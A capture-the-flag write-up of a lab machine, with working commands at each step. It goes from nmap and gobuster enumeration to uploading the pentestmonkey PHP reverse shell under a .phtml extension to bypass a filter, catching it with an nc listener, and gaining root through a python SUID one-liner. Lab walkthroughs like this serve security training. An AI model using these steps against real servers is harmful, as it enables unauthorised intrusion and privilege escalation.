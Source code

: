 
#my ip : X.X.X.X 
machine : 10.10.236.241

SCANNING
========
intial scan :
└─$ nmap -sV -v -Pn 10.10.236.241  -oN nmap/intial

22/tcp   open     ssh                                                                                                         
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu)) 

#it seems we only have the webpage to look into but let's run full scan in the background just in case it is helpless

└─$ nmap -sV -v -Pn -p- -sC 10.10.236.241  -oN nmap/all


ENUMRATION
===========

└─$ gobuster dir -u "http://10.10.236.241/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt

```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.236.241/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.236.241/panel/]  

```

#found upload page at /panel so let's try upload a shell !

#pentester monkey php reverse shell is a great one :

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#let's upload it and check if there is filteration techniques on uploading files 
#it doesn't accecpt php files :)
#let's check /uploads maybe it is uploaded and checked at their side !
#it is not :(
#let's try some modification on extenstion

phtml, .php, .php3, .php4, .php5, and .inc

EXPLOITAION
===========
#trying phtml and changing ip in the code 
# it is uploaded ! , and you can find it in the uploads section !
#set a listener 
$nc -lvp 1234 #my port
and execute it at uploads page 
=============================
   NOW WE HAVE A SHELL !
=============================
as www-data 
#to get stable shell 
$ python3 -c "import pty ; pty.spawn('/bin/bash')"

get user flag :
$find / -name user.txt

now we need privilege escalation :
----------------------------------

#sudo -l  #need our passs which we don't know :(
#-rw-r--r-- 1 root root 1603 Aug  4  2020 /etc/passwd
#-rw-r----- 1 root shadow 1157 Aug  4  2020 /etc/shadow

suid
======
SUID, the special permission for the user access level has a single function: 
A file with SUID always executes as the user who owns the file, regardless of the user passing the command. 

check for suid premissions :
-----------------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

weird file
------------
/usr/bin/python

visiting https://gtfobins.github.io/gtfobins/python/#suid


/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'



now we are root !
# find / -name root.txt

and get the final flag  :) 

